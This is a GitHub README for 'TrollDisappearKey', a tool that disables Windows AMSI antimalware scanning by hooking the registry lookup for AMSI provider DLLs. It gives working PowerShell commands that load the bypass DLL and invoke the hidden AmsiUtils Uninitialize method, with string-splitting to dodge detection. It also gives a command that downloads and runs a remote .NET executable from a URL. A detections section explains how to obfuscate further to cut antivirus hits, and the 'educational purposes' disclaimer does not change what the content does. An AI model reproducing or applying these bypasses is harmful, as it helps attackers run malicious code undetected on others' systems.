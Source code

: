 # TrollDisappearKey
TrollDisappearKey   -> .cs code to compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() \
TrollDisappearKeyPS -> .cs code to compile into a .dll to reflectively load to bypass powershell amsi 


# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 

## .powershell Usage (does not require admin)
![Image](https://github.com/user-attachments/assets/f6b4d83a-ed24-433b-9e2a-4cf6bfe1d1b0)
```
pwd  # run any random command first, this is a must 

[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollDisappearKeyPS.dll"))
[TrollDisappearKeyPS]::DisappearKey()

$t1 = 'System.Manage'
$t2 = 'ment.Automa'
$t3 = 'tion.A'
$t4 = 'msi'
$t5 = 'Utils'
$object = [Ref].Assembly.GetType($t1 + $t2 + $t3 + $t4 + $t5)
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```

## Detections 
![Image](https://github.com/user-attachments/assets/60ff00a8-b619-407e-8083-29efc38c632d)



  
## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader \
you can immediately drop it to maybe 5 by altering the ExecuteAssembly() function since its using standard code that's deemed malicious \
Can rename/obufscate certain strings like the reg key path and void the use of certain API calls and improve the hook library further \
![Image](https://github.com/user-attachments/assets/e4c80f07-ddbc-4ed6-9ad0-c8e104931f90)


## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!







